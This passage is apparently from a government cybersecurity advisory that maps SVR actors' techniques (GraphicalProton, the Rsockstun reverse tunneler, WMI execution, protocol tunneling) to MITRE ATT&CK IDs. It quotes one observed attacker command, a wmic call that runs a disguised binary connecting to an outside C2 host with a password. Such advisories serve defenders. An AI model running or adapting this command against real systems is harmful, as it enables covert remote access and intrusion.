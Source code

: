 Gather Victim Network Information


T1590


SVR cyber actors use GraphicalProton to gather victim network information.

Table 9: SVR Cyber Actors ATT&CK Techniques for Enterprise: Lateral Movement
Technique Title
ID
Use

Exploitation of Remote Services


T1210


SVR cyber actors may exploit remote services to gain unauthorized access to internal systems once inside a network.


Windows Management Instrumentation


T1047


SVR cyber actors executed Rsockstun either in memory or using Windows Management Instrumentation (WMI) to execute malicious commands and payloads.
wmic process call create "C:\Program Files\Windows Defender Advanced Threat Protection\Sense.exe -connect poetpages.com -pass M554-0sddsf2@34232fsl45t31"

Table 10: SVR Cyber Actors ATT&CK Techniques for Enterprise: Command and Control
Technique Title
ID
Use

Dynamic Resolution


T1568


SVR may dynamically establish connections to command-and-control infrastructure to evade common detections and remediations.


Protocol Tunneling


T1572


SVR cyber actors may tunnel network communications to and from a victim system within a separate protocol to avoid detection/network filtering and/or enable access to otherwise unreachable systems.
In selected environments, the SVR used an additional tool named, “rr.exe”—a modified open source reverse socks tunneler named Rsockstunm—to establish a tunnel to the C2 infrastructure.

Table 11: SVR Cyber Actors ATT&CK Techniques for Enterprise: Exfiltration
Technique Title
ID
Use

